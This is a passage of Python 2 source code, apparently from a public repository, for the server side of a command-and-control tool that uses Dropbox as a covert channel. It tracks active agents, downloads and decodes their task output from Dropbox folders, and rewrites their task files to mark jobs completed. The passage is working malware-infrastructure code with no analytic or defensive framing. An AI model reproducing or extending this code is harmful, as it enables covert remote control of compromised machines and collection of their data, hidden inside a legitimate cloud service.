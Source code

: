 		print('[-] HTTP error ', err)
		return False



class TaskChecker(object):

	def __init__(self, interval=5):

		self.interval = interval
		thread = threading.Thread(target=self.run, args=())
		thread.daemon = True                            
		thread.start()                                  

	def run(self):
		while True:
			checkCompletedTasks()
			time.sleep(self.interval)

def dropboxFileExists(path,file):
	for fileName in dbx.files_list_folder(path).entries:
		if fileName.name == file:
			return True
	return False

def checkCompletedTasks():

	for agent in activeAgents:
		path = '/%s/output' % agent
		try:
			if(dropboxFileExists('/%s/' % agent ,'output')):
				_, res = dbx.files_download(path)
				if(res.content != ""):
					outputData = json.loads(res.content.replace('\n',''))
				else:
					outputData = {}
				for data in outputData:
					if(data not in completedTasks[agent]):
						completedTasks[agent].append(data)
						print "\n==== Agent " + agent + " Task: " + data + " ==== "
						print base64.b64decode(outputData[data]["OUTPUT"])
						taskUpdater(agent)

			
		except Exception, err:
			print "[-] Error Receiving Completed Tasks [-]" 
			print err
			pass


def taskUpdater(agent):
	tasks = {}
	path = '/%s/tasks' % agent
	mode = (dropbox.files.WriteMode.overwrite)
	try:	
		_, res = dbx.files_download(path)
		if(res.content != ""):
			tasks = json.loads(res.content.replace('\n',''))
		else:
			tasks = {}
		for completedTask in completedTasks[agent]:
			tasks[completedTask]["STATUS"] = "Completed"
		dbx.files_upload(json.dumps(tasks),path,mode)
